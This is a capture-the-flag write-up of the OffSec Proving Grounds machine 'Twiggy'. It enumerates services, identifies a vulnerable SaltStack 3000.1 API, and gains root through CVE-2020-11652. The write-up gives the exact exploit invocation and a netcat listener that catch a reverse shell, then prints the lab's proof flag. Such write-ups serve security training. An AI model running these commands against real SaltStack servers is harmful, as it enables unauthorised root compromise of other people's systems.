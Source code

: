 # CTF Writeup: Twiggy (Proving Grounds)

**Platform:** OffSec Proving Grounds\
**IP Address:** 192.168.55.62\
**Difficulty:** Easy

---

## 🌟 Overview

Twiggy is an OffSec Proving Grounds machine that exposes several services, including a SaltStack installation vulnerable to CVE-2020-11652. We enumerate open ports and versions, identify the Salt API, and gain root access through an unauthenticated RCE vulnerability.

---

## 🔍 Enumeration

### 🔎 Nmap

```bash
nmap -p- 192.168.55.62
```

```
Ports Found:
22/tcp   OpenSSH 7.4
53/tcp   NLnet Labs NSD
80/tcp   nginx 1.16.1 (Mezzanine CMS)
4505/tcp ZeroMQ ZMTP 2.0
4506/tcp ZeroMQ ZMTP 2.0
8000/tcp nginx 1.16.1 (Salt API JSON Response)
```

```bash
nmap -p 22,53,80,4505,4506,8000 -sCV 192.168.55.62
```

- Port 8000 returned JSON identifying the backend as `salt-api/3000-1`

### 🤖 Web & API Analysis

```bash
curl http://192.168.55.62:8000
```

Response:

```json
{"clients": ["local", ..., "wheel_async"], "return": "Welcome"}
```

**Header:** `X-Upstream: salt-api/3000-1`

---

## 🚀 Exploitation

### 🔍 Identify Vulnerability

SaltStack version 3000.1 is vulnerable to:

- **CVE-2020-11651** (Auth bypass)
- **CVE-2020-11652** (Directory traversal / RCE)

```bash
searchsploit saltstack
```

- Found Exploit: [https://www.exploit-db.com/exploits/48421](https://www.exploit-db.com/exploits/48421)
- PoC Used: [https://github.com/Al1ex/CVE-2020-11652](https://github.com/Al1ex/CVE-2020-11652)

### 🛠️ Setup Exploit

Initial error:

```bash
ModuleNotFoundError: No module named 'salt'
```

Fixed with:

```bash
python3 -m pip install salt --break-system-packages
```

Other required modules:

```bash
python3 -m pip install looseversion pyzmq --break-system-packages
```

### ⚔️ Exploit Execution

```bash
nc -lvnp 80
python3 CVE-2020-11652.py --master 192.168.55.62 --port 4506 -lh 192.168.49.55 -lp 80 --exec-choose master
```

Shell received as root:

```bash
[root@twiggy root]# cat proof.txt
2c62fdee43317a2c5a26738b03ece8d1

# Hash Verification
sha256sum proof.txt
b07fb99fafc4e996a9e63c09f07b06d7be25f112d7f85d1125f7deec4eb3d4a4
md5sum proof.txt
743ce2f8539730798b19448bba6f7318
```
---

## 💡 Lessons Learned

- SaltStack versions prior to 3000.2 are **dangerously exposed** if not firewalled.
- Proper dependency management in Kali often requires using `--break-system-packages` or `pipx`.
- Always verify the running version of services via HTTP headers or `/version` endpoints.
- PG boxes often reward direct exploitation of known CVEs.

---

## 🔒 Proof Screenshot
<img src="https://raw.githubusercontent.com/inkedqt/ctf-writeups/main/HTB/proofs/pg_twiggy.png"/>


---

## 📊 Summary

- Salt API RCE via CVE-2020-11652
- Root access immediately due to unauthenticated nature
- Flag found at `/root/proof.txt`

